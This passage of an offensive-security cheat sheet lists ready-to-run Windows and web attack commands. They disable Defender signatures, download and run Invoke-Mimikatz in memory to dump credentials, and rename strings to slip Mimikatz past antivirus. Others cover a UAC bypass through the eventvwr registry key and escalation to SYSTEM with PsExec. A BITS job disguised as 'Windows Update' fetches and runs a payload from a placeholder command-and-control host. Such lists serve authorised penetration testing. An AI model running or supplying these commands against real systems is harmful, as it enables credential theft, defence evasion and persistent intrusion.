```
Add-MpPreference -ExclusionPath "C:/path/to/dir"

# Leave Defender running but remove all detection signatures
"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```
### wpscan Aggressive Scan on All WordPress Plugins
```console
wpscan -u https://someurl.com -e ap --plugins-detection aggressive
```
### PowerShellMafia Invoke-Mimikatz In-Memory Execution
```powershell
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz"
```
### Bypass AV Detection of Invoke-Mimikatz
```console
sed -i -e 's/Invoke-Mimikatz/Invoke-Mimidogz/g' Invoke-Mimikatz.ps1
sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1
sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1
sed -i -e 's/DumpCreds/DumpCred/g' Invoke-Mimikatz.ps1
sed -i -e 's/ArgumentPtr/NotTodayPal/g' Invoke-Mimikatz.ps1
sed -i -e 's/CallDllMainSC1/ThisIsNotTheStringYouAreLookingFor/g' Invoke-Mimikatz.ps1
sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1
```
### Creating an SMB Sever Using Impacket
```
sudo smbserver.py -smb2support <share_name> $(pwd)
```
### Ldapsearch without Domain
```
ldapsearch -x -h [IP] -b '' -s base '(objectclass=*)'
```
### UAC Bypass: Event Viewer Registery Key
```
# Our malicious payload will be triggered every time a .msc file is opened which
# is why event viewer (eventvwr.exe) is commonly executed because it executes Microsoft's Management Console (mmc.exe)
# which in turn triggers our payload.
reg add HKCU\Software\Classes\mscfile\shell\open\command /d [malicious_exe_path] /f
```
### Privilege Escalation: Local Admin to SYSTEM with PsExec
```
C:\SysinternalsSuite\psexec64 -s -i cmd.exe
```
### Background Intelligent Transfer Service (BITS) Persistence
```
# Create new transfer job named "Windows Update"
bitsadmin /Create "Windows Update"

# Add a file to our job
bitsadmin /AddFile "Windows Update" http://<yourC&C>.com/kb%RANDOM%.exe %TEMP%\kb7468656d.exe

# Customize the notification event trigger
bitsadmin /SetNotifyFlags "Windows Update" 1

# Specify command to execute on notification event
bitsadmin.exe /SetNotifyCmdLine "Windows Update" "%COMSPEC%" "cmd.exe /c bitsadmin.exe /complete \"Windows Update\" && start /B %TEMP%\kb7468656d.exe"
```